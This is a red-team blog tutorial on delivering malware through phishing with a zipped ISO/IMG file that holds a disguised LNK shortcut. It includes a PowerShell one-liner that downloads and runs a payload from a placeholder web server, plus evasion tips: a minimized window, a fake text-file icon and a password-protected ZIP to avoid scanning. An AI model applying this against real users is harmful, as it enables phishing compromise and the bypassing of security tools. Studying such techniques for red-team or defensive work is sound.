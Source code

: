 ```yaml
---
title: Abusing ISO/IMG Files
author: Z0ldyck
date: 2022-08-17 18:32:00 -0500
categories: [Blogging, Tutorial]
tags: [REDTEAM]
---
```



<html>
<div dir="rtl" align="right">
<h3>السلام عليكم ورحمة الله وبركاته</h3>
</div>
</html>


# introduction

Lately, I have been developing my custom tools and implementing/recreating some of the known techniques used by threat actors. Well, this post is not going to be focused on any specific tool but will showcase one technique that I enjoyed reimplementing and some advice for people who are looking to advance their work specifically for Red Teamers (It could help blue ppl, but I would assume they already do that). I think one of the biggest things that most red teamers (to be specific the ppl in my circle) are missing or not giving some time for is reading reports related to Threat Actors' new techniques. Most of these reports at the first sight might feel that the target audience is mostly Threat Hunters, but in reality, it will help both sides. One side can discover/identify these threats and the other can use them or even advance/change them to something even better, whatever the case is. My point is It doesn't matter what group you are in, reading them will 100% benefit you. I will suggest looking into reports related to Threat Actors from Mandiant/CrowdStrike. There is more, but these are faviourt ones


In this post, I will be going over one of the techniques that I see many threat actors using to compromise victims' machines. This technique is very well known for many blue teamers. You can find below a full map of the execution:

![](../../images/isoimg/1.png)

The attack is straightforward, we will be sending phishing emails that contain or provide a link to download a ZIP file. After decompressing the ZIP file the user would find an IMG/ISO file. A double click from the user will mount a disk containing an LNK file that will download our malicious payload and run it.

I will skip the email and the ZIP file part as these are not the main focus of this post (There is a ton of ways to deliver your files). First, create your malicious payload and host it on a web server, you can use your C2 web server or anything similar. Moving on to creating our LNK file, there is a lot of ways to create one. You can even use powershell/C# to create it, but we will just use the simple method cause why not :)


## LNK FILE

Create a shortcut of any app you have first, then open file properties. Check the image below:

![](../../images/isoimg/2.png)

Here is what you need to consider:

- Target → This is where you will put your command. You can use something like the command below to download and run your malicious payload:
```
powershell wget http://<your_webserver>/malware.exe -O C:\somewhere; malware.exe
```

(Note: Don’t use this command to deliver your payloads, it is not the best way and you will get caught immediately. This is just an example lol)

- Run → Set it to Minimized (Just trust me :p )

- File icon → I think you need to consider that. In the Shortcut section click on “Change Icon” and browse to “C:\Windows\System32\shell32.dll”. You will have a bunch of icons to choose from. I went with the text file icon.

## ISO FILE

This should be enough for the LNK file. Now let’s create the ISO file. I will be using AnyBurn to do this process, but you can use whatever you prefer. You might be wondering why would we go with an ISO/IMG file, the answer is simple users will double click it and a new CD Drive will be attached, and in some cases, it will bypass some security solutions. After creating the ISO you can just save it into an archive and somehow deliver it with some magic to the victim :p

In AnyBurn select “Create image file from files/folders”

![](../../images/isoimg/3.png)

In the new window add your folder/file and click on “Next”

![](../../images/isoimg/4.png)

Next, you will choose where to save your ISO file. By clicking “Create Now” your file will be created and saved in that destination.

![](../../images/isoimg/5.png)

![](../../images/isoimg/6.png)

## DEMO

Now all you need to do is save it in a ZIP file because there is a tone of solutions that started triggering ISO/IMG files. I would also suggest making a ZIP file protected with a password so these solutions wouldn’t be able to scan them (If that’s wrong correct me please!). Here is a demo of the whole process:


<html> 
<body> 
<video width="849" controls>
  <source src="../../images/isoimg/dev.mp4" type="video/mp4">
</video>
</body> 
</html>

I hope you enjoyed reading this post, I will be sharing more stuff (I don’t know why I am doing that at the end of my break lol)
